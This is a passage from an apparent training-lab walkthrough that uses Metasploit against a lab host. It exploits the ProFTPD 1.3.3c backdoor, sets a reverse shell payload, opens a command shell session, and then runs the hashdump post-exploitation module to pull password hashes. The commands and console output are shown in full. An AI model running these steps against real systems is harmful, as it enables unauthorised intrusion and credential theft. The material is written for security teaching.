 #### **What Happened:**
```bash
msf6 > use exploit/unix/ftp/proftpd_133c_backdoor
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload payload/cmd/unix/reverse
payload => payload/cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS demo.ine.local
RHOSTS => demo.ine.local
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set LHOST 192.70.114.2
LHOST => 192.70.114.2
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit -z

[*] Started reverse TCP double handler on 192.70.114.2:4444
[*] 192.70.114.3:21 - Sending Backdoor Command
[*] Accepted the first client connection ...
[*] Accepted the second client connection ...
[*] Command: echo 7UJqZUzCIAPFROQ\n
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets ...
[*] Reading from socket A
[*] A: "7UJqZUzCIAPFROQ\r\n"
[*] Matching ...
[*] B is input ...
[*] Command shell session 1 opened (192.70.114.2:4444 → 192.70.114.3:55328)
[*] Session 1 created in the background.
```

#### **🎉 Exploitation Success:**
- **Command shell established** with session ID 1
- **Reverse connection** from target back to attacker
- **Background session** ready for post-exploitation
- **Root-level access** confirmed through backdoor

#### **Technical Details:**
The exploit successfully triggered the backdoor mechanism, creating a reliable communication channel for further operations.

---

### **Step 6: Extract Password Hashes from Compromised System**

**What We're Doing:** Using post-exploitation modules to gather password information

#### **Commands Used:**
```bash
use post/linux/gather/hashdump
set SESSION 1
exploit
```

#### **What Happened:**
```bash
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > use post/linux/gather/hashdump
msf6 post(linux/gather/hashdump) > set SESSION 1
SESSION => 1
msf6 post(linux/gather/hashdump) > exploit

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: unix. This module works with: Linux.
[*] Post module execution completed
msf6 post(linux/gather/hashdump) > 
[*] Unshadowed Password File: /root/.msf4/loot/20240710-084143_default_192.70.114.3_linux.hashes_048201.txt
[*] Post module execution completed
```